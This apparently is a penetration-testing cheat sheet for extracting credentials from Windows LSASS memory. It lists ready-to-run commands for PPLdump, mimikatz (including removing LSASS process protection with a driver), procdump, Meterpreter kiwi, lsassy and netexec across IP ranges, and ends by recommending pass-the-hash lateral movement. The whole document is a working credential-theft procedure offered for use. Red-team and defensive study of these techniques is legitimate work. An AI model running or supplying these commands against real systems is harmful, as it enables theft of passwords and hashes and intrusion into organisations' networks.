 # Extract credentials from LSASS

## Tools: CrackMapExec/Netexec , lsassy , mimikatz , meterpreter , procdump , PPLDump , GUI

#### 1) LSASS as a Protected Process

 - PPLdump64.exe LSASS.EXE|LSASS_PID lsass.dmp

 - mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "!processprotect /process:lsass.exe:" "!-" (With mimidriver.sys)

#### 2) Procdump

 - Procdump.exe -accepteula -ma lsass.exe lsass.dmp

 - mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

#### 3) Meterpreter

 - load kiwi

 - creds_all

#### 4) Mimikatz

 - mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"

#### 5) lsassy

 - lsassy -d DOMAIN -u USER -p 'PASSWORD' IP

#### 6) CrackMapExec/Netexec

 - netexec smb IP_RANGE -u USER -p 'PASSWORD' -M lsassy

### With LSASS dumped, you can recover NTLM Hashes as well as clertext credentials to do Lateral Movement via Pass-the-Hash or Pass-the-Key

